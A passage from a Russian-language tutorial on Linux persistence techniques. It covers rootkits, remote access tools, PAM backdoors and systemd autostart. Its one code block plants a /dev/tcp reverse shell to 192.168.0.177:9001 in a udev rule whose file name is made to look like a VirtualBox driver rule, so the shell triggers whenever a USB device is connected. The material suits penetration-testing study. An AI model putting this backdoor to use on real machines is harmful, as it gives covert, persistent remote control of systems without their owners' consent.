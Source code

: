 **Минусы подхода:**

- Высокая сложность реализации таких методов, а также сложность их отладки.
- Разница в версии ОС или дистрибутиве может быть критически важной для выбора метода закрепления из этой категории.

Одним из самых популярных примеров внесения изменений в ядро ОС и закреплением на уровне ядра, может быть использование программ под общим названием **RootKit**.  
  
**Rootkit** — это вид вредоносного программного обеспечения, которое скрывает свою присутствие на компьютере или другом  
устройстве, изменяя функциональность операционной системы и скрывая свои следы от пользователей и системных программ.



Также для закрепления доступа используют ПО, именуемое **Remote Admin Tool**, что по своей сути очень похоже на **RootKit**, но  
иногда не претендует на скрытность. Тем не менее, в этой категории также присутствуют заметные представители. В том числе существуют легальные RAT-средства.

**Утилиты RAT (Remote Access Tool)** — это программные инструменты, которые позволяют удаленно управлять компьютером или устройством без ведома пользователя. **RAT-**утилиты могут быть использованы для различных целей, в том числе для управления компьютером из удаленного места, сбора конфиденциальной информации, мониторинга активности пользователя и т.д.




**Внедрение бэкдоров модули аутентификации на основе PAM**

**PAM (Pluggable Authentication Modules**_, подключаемые модули аутентификации)_ — разделяемые библиотеки, используемые для  
реализации произвольных методов аутентификации в виде единого **API**. Внедрение вредоносного модуля позволяет добавить  
мастер-пароль и перехватить учетные данные.

Внедрение бэкдоров в драйверы
Для запуска бэкдора при подключении какого-либо устройства можно использовать каталог /etc/udev/rules.d/, в котором хранятся правила для обработки событий устройств. Изменяя эти правила, можно переименовать устройство, настроить права доступа к нему, но самое главное, что нас интересует — выполнить скрипт при подключении устройства.

RSHELL="0<&196;exec 196<>/dev/tcp/192.168.0.177/9001; sh <&196 >&196 2>&196"
echo "ACTION==\"add\",ENV{DEVTYPE}==\"usb_device\",SUBSYSTEM==\"usb\",RUN+=\"$RSHELL\"" | tee /etc/udev/rules.d/71-vbox-kernel-drivers.rules > /dev/null

В таком случае при подключении к машине USB-устройства порт выполнится скрипт RSHELL для предоставления доступа вашей машине в сети.

Внедрение бекдоров в службы автозапуска (использование systemd)

systemd — это системный инициализатор и менеджер служб для операционных систем Linux. Он является заменой для более старой системы инициализации SysVinit и предоставляет целый набор функциональных возможностей для управления и контроля запуска служб и процессов в Linux-системе.



